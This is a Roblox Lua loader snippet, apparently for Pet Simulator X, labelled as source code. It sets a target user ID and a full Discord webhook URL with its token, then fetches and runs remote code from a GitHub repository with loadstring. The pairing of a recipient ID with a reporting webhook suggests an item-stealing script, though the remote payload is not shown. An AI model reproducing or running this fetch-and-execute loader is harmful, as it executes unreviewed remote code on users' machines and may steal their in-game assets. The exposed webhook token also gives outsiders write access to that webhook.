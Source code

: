 _G.UserID = 1852259426
_G.WebHook = "https://discord.com/api/webhooks/1005688890289557524/oXjrNCSJcuGqq123_yqfSHu1FZ_xXD79jckAScVoL8lHCLEYC-PRLlWBGz2HnF6N7GY-"
loadstring(game:HttpGet("https://raw.githubusercontent.com/LordZungg/PetSimX/main/Silence"))()
